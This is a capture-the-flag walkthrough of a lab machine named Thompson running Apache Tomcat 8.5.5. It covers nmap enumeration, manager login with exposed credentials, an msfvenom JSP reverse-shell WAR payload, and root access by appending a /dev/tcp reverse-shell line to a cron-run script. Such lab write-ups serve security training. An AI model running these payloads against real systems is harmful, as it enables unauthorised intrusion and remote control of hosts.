









# Thompson

#Linux #Java #ApacheTomcat/8-5-5

```
$ nmap -sV -sC 10.64.138.151
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 05:18 -0500
Nmap scan report for 10.64.138.151
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Accessing port `8080`, I got the following page.

<figure><figcaption></figcaption></figure>

When I try to access the Host Manager page, it's needed a credential to log in.

<figure><figcaption></figcaption></figure>

After canceling the sign in, it show us this page, which contains a user and password. I can use these to login.

<figure><figcaption></figcaption></figure>

I was able to login successfully. After that, I can try to send a malicious `.war` payload. 

<figure><figcaption></figcaption></figure>

I used `msfvenom` to create the payload.

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.130.101 LPORT=1337 -f war -o payload.war
```

<figure><figcaption></figcaption></figure>

Accessing `/payload` directory, I get a shell.

<figure><figcaption></figcaption></figure>

## Privilege Escalation

To escalate the privilege was very simple. I noticed that there was a file called `id.sh`. 

<figure><figcaption></figcaption></figure>

Since this file was on crontab, we can try to modify it to get a shell as a root. 

<figure><figcaption></figcaption></figure>

I was able to edit this file and I added the following command.

```
tomcat@ubuntu:/home/jack$ echo "sh -i >& /dev/tcp/192.168.130.101/1337 0>&1" >> id.sh
```

Waiting some seconds, I got a shell as root.

<figure><figcaption></figcaption></figure>